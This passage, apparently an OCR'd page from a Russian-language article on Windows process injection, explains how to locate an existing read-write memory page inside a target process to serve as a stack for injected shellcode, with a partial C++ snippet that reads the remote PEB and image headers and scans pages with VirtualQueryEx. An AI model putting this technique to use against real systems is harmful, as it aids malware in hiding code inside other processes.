 **Стек**

Если мы не можем выделить память для стека, то мы можем просто найти пустую RW страницу. Проблему с пятым NULL аргументом для ReadProcessMemory тоже можно решить. Чтобы не затереть потенциально критичные данные, мы можем использовать , для своих целей, выравнивающие байты в RW страницах памяти, внутри бинарника. Конечно, если они там имеются. 

Чтобы найти RW страницы в памяти бинарника, мы можем найти базовый адрес через PEB, потом пробежаться по памяти функцией VirtualQueryEx. Она возвращает информацию о правах на страницы, их размер, которые могут быть использованы для нахождения любой существующей RW страницы, подходящей для шеллкода.


```cpp
//
// Получаем PEB.
//
NtQueryInformationProcess(
    ProcessHandle,
    ProcessBasicInformation,
    &ProcessBasicInfo,
    sizeof (PROCESS_BASIC_INFORMATION),
    &ReturnLength
);
//
// Получаем базовый адрес
//
    ReadProcessMemory(
    ProcessHandle,
    ProcessBasicInfo.PebBaseAddress,
    &Peb,
    sizeof (PEB),
    NULL
);
ImageBaseAddress = Peb.Reserved3[1];
//
// Получаем DOS заголовок.
//
ReadProcessMemory(
    ProcessHandle,
    ImageBaseAddress,
    &DosHeader,
    sizeof (IMAGE_DOS_HEADER),
    NULL
);
//
// Получаем NT заголовок.
//
ReadProcessMemory(
    ProcessHandle,
    (LPBYTE)ImageBaseAddress + DosHeader.e_lfanew,
    &NtHeaders,
    sizeof (IMAGE_NT_HEADERS),
    NULL
);
//
// Ищем существующие страницы памяти внутри бинарника.
//
for (SIZE_T i = 0 ; i < NtHeaders.OptionalHeader.SizeOfImage; i += MemoryBasicInfo.RegionSize) {
    VirtualQueryEx(
        ProcessHandle,
        (LPBYTE)ImageBaseAddress + i,
        &MemoryBasicInfo,
        sizeof (MEMORY_BASIC_INFORMATION)
    );
//
// Ищем RW память для стека.
```